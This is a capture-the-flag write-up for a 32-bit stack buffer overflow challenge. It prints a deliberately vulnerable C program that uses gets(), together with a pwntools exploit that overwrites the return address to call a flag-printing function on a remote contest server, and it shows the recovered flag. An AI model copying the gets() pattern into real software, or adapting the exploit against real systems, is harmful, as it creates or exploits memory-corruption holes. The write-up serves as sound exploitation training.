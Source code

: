 # bof to the top

The `main()` funtion calls `get_audition_info()` which calls `gets()` function that allows buffer overflow<br>

[bof.c](./bof.c)
```C
#include "stdio.h"
#include "string.h"
#include "stdlib.h"

// gcc -m32 -fno-stack-protector -no-pie bof.c -o bof

void audition(int time, int room_num){
	char* flag = "/bin/cat flag.txt";
	if(time == 1200 && room_num == 366){
		system(flag);
	}
}

void get_audition_info(){
	char name[50];
	char song[50];
	printf("What's your name?\n");
	gets(name);
	printf("What song will you be singing?\n");
	gets(song);
}

void welcome(){
	printf("Welcome to East High!\n");
	printf("We're the Wildcats and getting ready for our spring musical\n");
	printf("We're now accepting signups for auditions!\n");
}

int main(){
	welcome();
	get_audition_info();
	return 0;
}
```

To exploit this program we have to jump to `audition()` fuctions that requires two integers as arguments<br>
time and room_num, so we have to send junk input followed by `audition()` function address and the two arguments<br>

[exploit.py](./exploit.py)
```python
#!/usr/bin/env python2
from pwn import *

audition = p32(0x08049182)
time     = p32(0x4b0)
room_num = p32(0x16e)
payload  = 'a'* 112 + audition + 'a'*4 + time + room_num

conn = remote('ctf.umbccd.io', 4000)
#conn = process('./bof')

conn.sendlineafter('?', 'name')
conn.sendlineafter('?', payload)
print conn.recvall()
conn.close
```
### flag
`DawgCTF{wh@t_teAm?}`
